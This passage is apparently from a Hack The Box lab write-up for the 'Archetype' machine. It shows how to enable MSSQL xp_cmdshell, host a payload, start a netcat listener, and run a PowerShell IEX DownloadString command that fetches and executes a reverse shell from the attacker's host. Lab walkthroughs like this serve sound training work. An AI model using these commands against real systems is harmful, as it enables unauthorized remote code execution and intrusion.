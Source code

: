 ```
SQL> enable_xp_cmdshell
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> xp_cmdshell whoami
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  
```

Now we have a shell!  Let's upgrade our shell...

### Upgrading our Shell with a Reverse Shell

First we're going to host up a server which will have our "shellcode":

```
┌──(kali㉿kali)-[~/htb/utils/shells]
└─$ python3 -m http.server 80                                                                                                                                                                                                            1 ⨯
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

and let's spin up a netcat listener (Remember to allow it through your firewall -- you want incoming connections from 10.10.10.27 to be able to talk to the port):

```
└─$ nc -nlvp 443                          
listening on [any] 443 ...
```

and finally download and execute our reverse shell on Archetype:

```
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.47/shell.ps1\");""
```

You should see netcat respond:
```

└─$ nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.14.47] from (UNKNOWN) [10.10.10.27] 49773

```

and from here you can issue commands.

Some problems you may run into:

1. If the SQL prompt stops giving you any output when you run a command, exit out of it with ctrl-c and then reconnect and try again
2. If you're seeing errors about "&" then you're probably messing up the quotes
3. If your HTTP server isn't printing out that you're receiving requests for shell.ps1 then your firewall is probably in the way
4. IF you're getting errors about Null-valued expressions, you probably need to run `nc -nlvp 443`
5. If you don't have a shell.ps1 file, search the internet for a reverse shell in PowerShell or write your own
